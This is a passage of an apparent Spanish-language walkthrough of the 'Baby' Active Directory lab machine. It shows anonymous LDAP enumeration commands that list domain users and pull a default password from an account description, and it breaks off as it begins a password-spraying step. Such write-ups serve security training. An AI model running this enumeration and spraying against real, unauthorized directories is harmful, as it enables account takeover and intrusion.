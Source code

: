 Los puertos abiertos indican que estamos frente a un **Domain Controller** de Active Directory con los servicios típicos: LDAP, Kerberos, SMB, y WinRM.

---

## Enumeración

### Enumeración LDAP

El primer paso es enumerar LDAP para obtener información del dominio y usuarios. Utilizamos `ldapsearch` para extraer todos los usuarios:

```bash
ldapsearch -x -b "dc=baby,dc=vl" "*" -H ldap://10.129.110.163 | grep userPrincipalName
```

Este comando nos devuelve los siguientes usuarios:

```
userPrincipalName: Jacqueline.Barnett@baby.vl
userPrincipalName: Ashley.Webb@baby.vl
userPrincipalName: Hugh.George@baby.vl
userPrincipalName: Leonard.Dyer@baby.vl
userPrincipalName: Connor.Wilkinson@baby.vl
userPrincipalName: Joseph.Hughes@baby.vl
userPrincipalName: Kerry.Wilson@baby.vl
userPrincipalName: Teresa.Bell@baby.vl
userPrincipalName: Caroline.Robinson@baby.vl
```

**Punto clave:** Caroline.Robinson aparece al final de la lista y está en una OU diferente (OU=it) mientras que la mayoría de usuarios están en OU=dev. Es fácil pasarla por alto en una enumeración rápida.

### Búsqueda de credenciales en LDAP

Continuamos enumerando LDAP buscando información sensible en los atributos de los objetos:

```bash
ldapsearch -x -H ldap://10.129.110.163 -b "dc=baby,dc=vl" | grep "password"
```

Encontramos una descripción reveladora:

```
description: Set initial password to BabyStart123!
```

---

## Acceso Inicial

### Password Spraying

Con la contraseña encontrada (`BabyStart123!`) procedemos a realizar password spraying contra todos los usuarios encontrados:
